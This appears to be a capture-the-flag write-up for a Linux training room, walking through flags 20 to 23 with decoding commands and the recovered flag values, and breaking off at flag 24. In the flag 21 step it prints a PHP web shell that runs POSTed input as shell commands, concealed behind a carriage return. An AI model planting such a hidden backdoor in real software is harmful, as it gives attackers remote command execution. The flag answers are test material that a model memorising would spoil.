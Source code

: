 `490e69bd1bf3fc736cce9ff300653a3b`

## Task 4 Data Representation, Strings and Permissions

This set of tasks will require you to understand how certain data is represented on a Linux system. This section may require you to do some independent research.

1. Find and retrieve flag 20.

```
alice@ip-10-10-148-204:~$ cat flag20
MDJiOWFhYjhhMjk5NzBkYjA4ZWM3N2FlNDI1ZjZlNjg=
alice@ip-10-10-148-204:~$ cat flag20 | base64 -d
02b9aab8a29970db08ec77ae425f6e68
```

`02b9aab8a29970db08ec77ae425f6e68`

2. Inspect the flag21.php file. Find the flag.

```
alice@ip-10-10-148-204:~$ find / -name flag21.php 2>/dev/null
/home/bob/flag21.php
alice@ip-10-10-148-204:~$ cat /home/bob/flag21.php 
<?='MoreToThisFileThanYouThink';?>
alice@ip-10-10-148-204:~$ cat -A /home/bob/flag21.php 
<?=`$_POST[flag21_g00djob]`?>^M<?='MoreToThisFileThanYouThink';?>$
```

`g00djob`

3. Locate and read flag 22. Its represented as hex.

```
alice@ip-10-10-148-204:~$ find / -name flag22* 2>/dev/null
/home/alice/flag22
alice@ip-10-10-148-204:~$ cat /home/alice/flag22 
39 64 31 61 65 38 64 35 36 39 63 38 33 65 30 33 64 38 61 38 66 36 31 35 36 38 61 30 66 61 37 64
alice@ip-10-10-148-204:~$ xxd -r -p /home/alice/flag22
9d1ae8d569c83e03d8a8f61568a0fa7d
```

`9d1ae8d569c83e03d8a8f61568a0fa7d`

4. Locate, read and reverse flag 23.

```
alice@ip-10-10-148-204:~$ find / -name flag23* 2>/dev/null
/home/alice/flag23
alice@ip-10-10-148-204:~$ cat /home/alice/flag23 
5ffb258330b8437a090c4f66507925ae
alice@ip-10-10-148-204:~$ cat /home/alice/flag23 | rev
ea52970566f4c090a7348b033852bff5
```

`ea52970566f4c090a7348b033852bff5`

5. Analyse the flag 24 compiled C program. Find a command that might reveal human readable strings when looking in the source code.
